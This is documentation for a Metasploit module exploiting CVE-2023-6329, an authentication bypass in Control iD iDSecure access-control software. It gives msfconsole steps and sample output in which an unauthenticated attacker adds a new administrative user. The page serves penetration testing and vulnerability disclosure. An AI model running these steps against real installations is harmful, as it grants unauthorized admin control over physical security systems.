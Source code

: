 ## Vulnerable Application

This module exploits an improper access control vulnerability (CVE-2023-6329) in Control iD iDSecure <= v4.7.43.0. It allows an
unauthenticated remote attacker to compute valid credentials and to add a new administrative user to the web interface of the product.

The advisory from Tenable is available [here](https://www.tenable.com/security/research/tra-2023-36), which lists the affected version
4.7.32.0. According to the Solution section, the vendor has not responded to the contact attempts from Tenable. While creating this MSF
module, the latest version available was 4.7.43.0, which was confirmed to be still vulnerable.

## Testing

The software can be obtained from the [vendor](https://www.controlid.com.br/suporte/idsecure).

Deploy it by following the vendor's [documentation](https://www.controlid.com.br/docs/idsecure-en/).

**Successfully tested on**

- Control iD iDSecure v4.7.43.0 on Windows 10 22H2
- Control iD iDSecure v4.7.32.0 on Windows 10 22H2

## Verification Steps

1. Deploy Control iD iDSecure v4.7.43.0
2. Start `msfconsole`
3. `use auxiliary/admin/http/idsecure_auth_bypass`
4. `set RHOSTS <IP>`
5. `run`
6. A new administrative user should have been added to the web interface of the product.

## Options

### NEW_USER
The name of the new administrative user.

### NEW_PASSWORD
The password of the new administrative user.

## Scenarios

Running the module against Control iD iDSecure v4.7.43.0 should result in an output
similar to the following:

```
msf > use auxiliary/admin/http/idsecure_auth_bypass
msf auxiliary(admin/http/idsecure_auth_bypass) > set RHOSTS 192.168.137.196
[*] Running module against 192.168.137.196

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version retrieved: 4.7.43.0
[+] The target appears to be vulnerable.
[+] Retrieved passwordRandom: <redacted>
[+] Retrieved serial: <redacted>
[*] Created passwordCustom: <redacted>
[+] Retrieved JWT accessToken: <redacted>
[+] New user 'h4x0r:Sup3rS3cr3t!' was successfully added.
[+] Login at: https://192.168.137.196:30443/#/login
[*] Auxiliary module execution completed

```
